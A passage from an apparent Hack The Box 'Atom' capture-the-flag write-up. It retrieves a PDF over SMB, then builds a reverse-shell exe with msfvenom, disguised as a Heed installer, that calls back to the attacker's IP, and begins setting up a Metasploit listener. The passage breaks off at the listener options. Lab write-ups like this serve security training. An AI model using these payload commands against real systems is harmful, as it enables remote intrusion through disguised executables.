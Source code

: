 That's better. Hopefully the other share had nothing in it.

Exploring this share, there is nothing in any of the `client` directories.

Let's get that pdf we saw in the nmap scan:

```bash
smb: \> get UAT_Testing_Procedures.pdf 
getting file \UAT_Testing_Procedures.pdf of size 35202 as UAT_Testing_Procedures.pdf (243.8 KiloBytes/sec) (average 243.8 KiloBytes/sec)
smb: \> exit
```

It has some interesting information:

![[Pasted image 20210420170103.png]]

It suggests that the current application does not interact with a server at all, but that there is a server active. Perhaps there is an API on the domain that we can interact with.

It also suggests uploading an `exe` file to one of the `client` directories on Samba will cause the `QA team` to run it. So if we can create a malicious `exe` we might be able to get a shell.

### Generating a Payload

Let's use msfvenom to [make a malicious exe](https://www.offensive-security.com/metasploit-unleashed/binary-payloads/).

The nmap scan tells us it's 64-bit windows. I tried the same command as in the OffSec article but replaced the exe name with one that looked like an updated version of Heed.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.10.14.167 LPORT=9001 -b "\x00" -e x86/shikata_ga_nai -f exe -o "heedv1 Setup 1.0.1.exe"
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: heedv1 Setup 1.0.1.exe
```

I then setup a listener using the `handler` module so I could be sure its settings matched the shellcode:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom/heed_source]
└─$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```